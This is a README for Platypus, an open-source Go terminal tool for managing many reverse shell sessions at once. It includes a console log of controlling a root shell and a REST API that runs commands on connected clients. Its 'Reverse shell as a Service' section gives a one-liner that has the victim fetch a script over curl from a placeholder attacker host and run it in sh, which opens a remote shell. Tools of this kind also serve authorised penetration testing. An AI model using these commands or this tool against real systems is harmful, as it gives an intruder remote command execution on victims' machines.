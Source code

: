 # Platypus

A modern multiple reverse shell sessions/clients manager via terminal written in go

#### Features
- [x] Multiple service listening port
- [x] Multiple client connections
- [x] RESTful API
- [x] Reverse shell as a service
- [ ] Upgrade common reverse shell session into full interactive session

#### Use Platypus from source code
```
go get github.com/WangYihang/Platypus
cd go/src/github.com/WangYihang/Platypus
go run platypus.go
```

#### Use Platypus from release binaries
```
# Download binary from https://github.com/WangYihang/Platypus/releases
root@kali:~# chmod +x ./Platypus_linux_amd64
root@kali:~# ./Platypus_linux_amd64
>> Help
Usage: 
	Help [COMMANDS]
Commands: 
Command
	execute a command on the current session
DataDispatcher
	DataDispatcher command on all clients which are interactive
Exit
	Exit the whole process
	If there is any listening server, it will ask you to stop them or not
Info
	Display the infomation of a node, using the hash of the node
Interact
	Pop up a interactive session, you can communicate with it via stdin/stdout
Jump
	Jump to a node, waiting to interactive with it
List
	Try list all listening servers and connected clients
REST
	Start a RESTful HTTP Server to manager all clients
Run
	Try to run a server, listening on a port, waiting for client to connect
Switching
	Switch the interactive field of a node, allows you to interactive with it
	If the current status is ON, it will turns to OFF. If OFF, turns ON
>> Run 0.0.0.0 8080
>> 2018/10/24 14:36:39 Server running at: [b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (0 online clients) (started at: now)
>> 2018/10/24 14:37:05 New client [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: now) [false] Connected
>> List
2018/10/24 14:37:11 Listing 1 servers
[b62899ae4eb021ae6faa100b0d6f2ae8] 0.0.0.0:8080 (1 online clients) (started at: 31 seconds ago)
	[d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 6 seconds ago) [false]
>> Jump d
2018/10/24 14:37:12 The current interactive shell is set to: [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 7 seconds ago) [false]
>> Interact
2018/10/24 14:37:14 Interacting with [d14a421389af9436d7d4181774077dab] tcp://127.0.0.1:54798 (connected at: 9 seconds ago) [false]
whoami
root
id
uid=0(root) gid=0(root) groups=0(root)
exit
>> REST 127.0.0.1 9090
2018/10/24 14:37:27 RESTful HTTP Server running at 127.0.0.1:9090
```

#### Reverse shell as a Service
```bash
# victim will be redirected to attacker-host attacker-port
sh -c "$(curl http://host:port/attacker-host/attacker-port)"
# if the attacker info not specified, it will use host, port as attacker-host attacker-port
sh -c "$(curl http://host:port/)"
```

#### RESTful API
* `GET /client` List all online clients
```
# curl 'http://127.0.0.1:9090/client'
{
    "msg": [
        "127.0.0.1:54798"
    ],
    "status": true
}
```
* `POST /client/:hash` execute a command on a specific client
```
# curl -X POST 'http://host:port/client/d14a421389af9436d7d4181774077dab' --data 'cmd=whoami'
{
    "status": true,
    "msg": "root\n",
}
```
* How to hash?
```
# echo -n "127.0.0.1:54798" | md5sum
d14a421389af9436d7d4181774077dab
```

#### TODO
- [ ] More interfaces in RESTful API
- [ ] RESTful API should auth
